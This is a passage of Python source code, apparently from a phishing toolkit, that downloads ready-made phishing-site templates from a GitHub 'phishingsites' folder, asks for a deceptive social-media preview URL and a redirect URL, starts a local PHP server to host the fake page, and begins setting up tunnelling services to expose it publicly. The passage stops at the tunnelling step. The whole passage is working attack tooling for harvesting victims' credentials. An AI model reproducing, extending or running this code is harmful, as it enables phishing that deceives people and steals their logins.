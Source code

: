      if customdir is None: 
         site = f"{sites_dir}/{folder}" 
         if not isdir(site): 
             internet() 
             delete("site.zip") 
             download(f"https://github.com/KasRoudra/files/raw/main/phishingsites/{folder}.zip", "site.zip") 
             extract("site.zip", site) 
             remove("site.zip") 
         copy(site, site_dir) 
         if mode == "test": 
             metaurl = "" 
         else: 
             metaurl = input(f"\n{ask}{bcyan}Enter shadow url {green}({blue}for social media preview{green}){bcyan}[{red}press enter to skip{bcyan}] : {green}") 
         write_meta(metaurl) 
         if url is not None: 
             redirect_url = url 
         else: 
             if mode == "test": 
                 redirect_url = "" 
             else: 
                 redirect_url = input(f"\n{ask}{bcyan}Enter redirection url{bcyan}[{red}press enter to skip{bcyan}] : {green}") 
         write_redirect(redirect_url) 
     server() 
  
 # Start server and tunneling 
 def server(): 
     global mode 
     clear() 
     # Termux requires hotspot in some android 
     if termux: 
         sprint(f"\n{info}If you haven't enabled hotspot, please enable it!") 
         sleep(2) 
     sprint(f"\n{info2}Initializing PHP server at localhost:{port}....") 
     for logfile in [php_file, cf_file, lx_file, lhr_file]: 
         delete(logfile) 
         if not isfile(logfile): 
             try: 
                 mknod(logfile) 
             except: 
                 sprint(f"\n{error}Your terminal lacks file/folder permission! Fix it or run me from docker!") 
                 pexit() 
     php_log = open(php_file, "w") 
     cf_log = open(cf_file, "w") 
     lx_log = open(lx_file, "w") 
     lhr_log = open(lhr_file, "w") 
     internet() 
     bgtask(f"php -S {local_url}", stdout=php_log, stderr=php_log, cwd=site_dir) 
     sleep(2) 
     try: 
         status_code = get(f"http://{local_url}").status_code 
     except Exception as e: 
         append(e, error_file) 
         status_code = 400 
     if status_code <= 400: 
         sprint(f"\n{info}PHP Server has started successfully!") 
     else: 
         sprint(f"\n{error}PHP Error! Code: {status_code}") 
         pexit() 
     sprint(f"\n{info2}Initializing tunnelers at same address.....") 